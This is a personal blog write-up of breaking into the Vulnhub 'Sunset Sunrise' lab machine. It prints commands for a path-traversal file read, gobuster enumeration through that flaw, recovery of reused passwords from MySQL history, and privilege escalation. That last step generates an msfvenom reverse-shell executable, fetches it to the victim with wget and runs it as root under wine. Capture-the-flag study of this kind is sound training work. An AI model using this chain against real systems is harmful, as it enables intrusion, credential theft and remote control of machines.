## Writeup of the [Sunset Sunrise](https://www.vulnhub.com/entry/sunset-sunrise,406/) Vulnhub machine

So its been a little while since I have posted something on here.  But wanted to get back to posting in 2023 so picked a machine labelled as beginner.  Here we go. Lets start with a nmap scan:

```bash
nmap -sC -sV 10.0.2.21 -oN nmap/sunset
```

[](../images/sunrise/nmap.png)

So it looks like we have 4 ports open.  Looking at port 80 its just a fresh install of nginx.

[](../images/sunrise/web.png)

I tried some default credentials for the mysql server but didn't get very far.  Then I took a look at port 8080. 

[](../images/sunrise/web8080.png)

Looks like we have some kind of file directory software running on this port.  A quick google of the name `Weborf` plus `exploit` finds this on exploitdb.

[ExpoitDB](https://www.exploit-db.com/exploits/14925)

[](../images/sunrise/exploitdb.png)

I tried the POC url to try and read the `/etc/passwd` file on the server and it worked.

[](../images/sunrise/lfi.png)

So I had this LFI vulnerability and from the `/etc/passwd` file I could see 2 potential users:

- weborf
- sunrise

But that was it.  I tried reading some of the locations of configuration files that may have credentials but had no luck.  I was stuck.  I poked around a bit longer and then tried to check for a ssh key in both of the users home directories.  No luck.  After some googling I realised I could use the LFI vulnerability and combine it with a tool like `gobuster` to try and find some interesting files in the home directories.

```bash
gobuster dir -u http://10.0.2.21:8080/..%2F..%2F..%2F..%2F..%2F..%2F..%2Fhome%2Fweborf -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
```

[](../images/sunrise/gobuster.png)

Ah yes there is a mysql server on the machine as well.  .mysql_history sounds interesting, lets use the LFI to read its contents.

[](../images/sunrise/mysqlhistory.png)

Now we had the credentials `weborf:iheartrainbows44`.  I wonder if this user would have re-used the password for their SSH login, surely not.

[](../images/sunrise/weborfssh.png)

I was on the server.  Now I should have realised that I just used mysql credentials to login to SSH, so I should probably check the mysql database for any credentials.  But I did not, I aimlessly wandered around the machine for too long not finding much.  This is a lesson I have made a note of for next time. 

Finally I realised to check the mysql server.

[](../images/sunrise/mysqlusercreds.png)

So now we have the credentials for sunrise `sunrise:thefutureissobrightigottawearshades`, nice. I sshed into the box with the sunrise user and ran `sudo -l` to see what the user can run as sudo with no password.

[](../images/sunrise/sunrisessh.png)

[](../images/sunrise/sudol.png)

So looks like I can run wine as sudo with no password.  I took this opportunity to get my first flag from the user.txt file. 

[](../images/sunrise/usertxt.png)

So wine is:

```
Wine (originally an acronym for "Wine Is Not an Emulator") is a compatibility layer capable of running Windows applications on several POSIX-compliant operating systems, such as Linux, macOS, & BSD. 
```

I checked GTFObins for any way to exploit this, but found nothing.  A quick google search turned up the following page:

[exploit_wine_with_msfvenom](https://www.hacknos.com/wine-privilege-escalation/)

Turns out I could pass a malicious `exe` file to win to gain a root shell.  Lets give it a go.  First I had to generate a malicious payload with msfvenom:

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.0.2.15 lport=4545 -f exe >meisty.exe
```
[](../images/sunrise/msfvenom.png)

Then I had to start a python3 web server on my attacker machine so I could transfer the malicious exe to the victim machine.

```bash
python3 -m http.server 80
```

On the victim machine:
```bash
cd /tmp
wget 10.0.2.15/meisty.exe
```

Back on my attacker machine I started up metasploit `msfconsole` and then used the `exploit/multi/handler` with the payload `generic/shell_reverse_tcp.  And I set the lhost and lport. And ran it.

[](../images/sunrise/msfconsole.png)

Now I had my listener setup it was time to run the malicious exe on the victim machine.

```bash
sudo /usr/bin/wine meisty.exe
```

Checking my listener I had a shell.

[](../images/sunrise/shells.png)

Checking the root folder I found the root flag.

[](../images/sunrise/root.png)

There we have it.  First blog post of 2023.  Lets hope there will be many more this year.  Hack the planet!
